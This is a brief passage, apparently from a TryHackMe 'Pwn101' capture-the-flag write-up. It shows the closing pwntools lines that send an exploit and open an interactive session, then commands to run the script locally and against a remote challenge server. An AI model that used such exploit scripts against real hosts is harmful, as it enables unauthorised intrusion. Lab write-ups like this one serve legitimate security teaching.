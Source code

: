 ```python
io.sendline(exploit)
io.interactive()
```

We execute our python code locally and check if it works.

```bash
python2.7 code.py
```

![Untitled](Pwn101%20-%20TryHackMe%20CTF%20Writeup/Untitled%208.png)

It works, now try it on the remote server.

```bash
python2.7 code.py REMOTE ip port
```

![Untitled](Pwn101%20-%20TryHackMe%20CTF%20Writeup/Untitled%209.png)
